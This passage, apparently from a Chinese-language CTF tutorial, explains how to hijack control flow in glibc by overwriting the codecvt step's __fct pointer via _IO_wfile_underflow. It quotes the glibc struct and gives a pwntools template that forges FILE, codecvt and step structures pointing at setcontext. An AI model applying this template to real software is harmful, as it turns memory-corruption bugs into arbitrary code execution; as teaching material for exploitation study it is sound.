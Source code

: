 ```c
  /* For internal use by glibc.  (Accesses to this member must occur
     when the internal __gconv_lock mutex is acquired).  */
  int __counter;

  char *__from_name;
  char *__to_name;

  __gconv_fct __fct;  // [9]
  __gconv_btowc_fct __btowc_fct;
  __gconv_init_fct __init_fct;
  __gconv_end_fct __end_fct;

  /* Information about the number of bytes needed or produced in this
     step.  This helps optimizing the buffer sizes.  */
  int __min_needed_from;
  int __max_needed_from;
  int __min_needed_to;
  int __max_needed_to;

  /* Flag whether this is a stateful encoding or not.  */
  int __stateful;

  void *__data;		/* Pointer to step-local data.  */
};
```

如上，它的定义在 [9] 处。

也就是说，只需要劫持 `stdxxx->codecvt->__cd_in.step->__fct` 就可以劫持控制流。

类似 `__libio_codecvt_in` 的函数还有 `__libio_codecvt_out`、`__libio_codecvt_length` 等等。

总结如下：

### 利用 `_IO_wfile_underflow` 函数控制程序执行流

板子如下：

```python
fakeio = flat({
	0: 0,
	0x10: -1,
	0x98: fake_codecvt,
	0xa0: old_wide_data or heap_chunk,
	0xd8: libc.sym['_IO_wfile_jumps'] - 0x40  # 保证能调用 _IO_wfile_underflow
}, filler=b"\x00")

fake_codecvt = flat({
	0: fake_cd_in_step
}, filler=b"\x00")

fake_cd_in_step = flat({
	0x28: libc.sym['setcontext'] + 0x35
}, filler=b"\x00")
```
